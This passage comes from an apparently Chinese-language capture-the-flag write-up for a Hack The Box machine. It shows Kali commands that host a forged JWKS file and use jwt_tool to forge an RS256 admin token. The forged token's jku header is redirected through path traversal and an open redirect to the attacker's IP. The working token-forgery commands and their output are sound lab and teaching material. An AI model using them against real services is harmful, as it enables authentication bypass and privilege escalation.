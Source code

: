 ```
┌──(root💀kali)-[~/htb/unicode]
└─# mv jwttool_custom_jwks.json jwks.json 

┌──(root💀kali)-[~/htb/unicode]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

# 篡改 JWT

接下来，我们将篡改 cookie，使用户成为管理员。我们还需要重定向 JKU 检查，以便它使用由我们在 Kali 上托管的 jwt 工具创建的自定义检查。然后，我们需要再次对令牌进行签名，以便签名有效。我们可以使用 jwt_tool 创建的密钥对来做到这一点:

```
┌──(root💀kali)-[~/htb/unicode/test]
└─# root@kali:~/htb/unicode# python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoicGVuY2VyIn0.LNZiXwlqLXTJ18nTKztpy2x0svtVyTw1YX_YuINoU8sG2VKOaAF_3SW0hffM2vN9_6tYYJBbd6Fh2qFR01jd5-bWBk_0Smy59nttPHqn2Rh2IqiKsDbqOqL5jJpSAYeKEXdBWRW2_z6XePj11z6dDqc5YupoDuJzC_B705sib_gB9c9Nf2SphTfU-vckDw3Ghw74y3nibr-QJNSDohUTOGWZT-satIYVQJvBxCyY1BBCWxzpAbhO9dFtBUQcsLDWg9iw-lke7i2YVjfGCld1ChfuqrK2q-EzTiPQ6GrqhDwkBFPA0MJ6otyt61j0PLe8ELpgZKO6_0IO6l3uDaHADw  -I -hc jku -hv http://hackmedia.htb/static/../redirect/?url=10.10.14.241/jwks.json -pc user -pv admin -S rs256 -pr jwttool_custom_private_RSA.pem

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.4                \______|             @ticarpi      

jwttool_2e549bdf823847e163cdb9fb301aed1a - Tampered token - RSA Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjI0MS9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.jRPqqWUrVKo4AHWZ6CbCmV-uQbtC9OB_4vIQkrOdB2SZhGXLcBmFMujcz5TkidarraSThjFjpXsNDtacW6h4q8lcFu6ePOqKFErh33dItW5LKEIQrAZTZ2oL6s8kEisYYEPKEfn3m_M0fYZZL4knj8_Hq70LDg0GhW9pJy4GZouMYKNf-ILY9IDavVpg6b-S2t6l0ALEya5AdHdbh3ChMeDduikaeaL_s_r7xPtguXFttYA37bqNgbeREZE8AifJhA9Q-jlMTay3OyjBFXT-diLHIvqGEwWnIkbXHX_lH97Eomv3hDhNJ-pv30FgGXRttwS_aOvth3sCre0fHUVqJQ
```

将这些参数分解一下:

![](img/2fc728a0c8d7151ef86a78e6ec7ad39e.png)
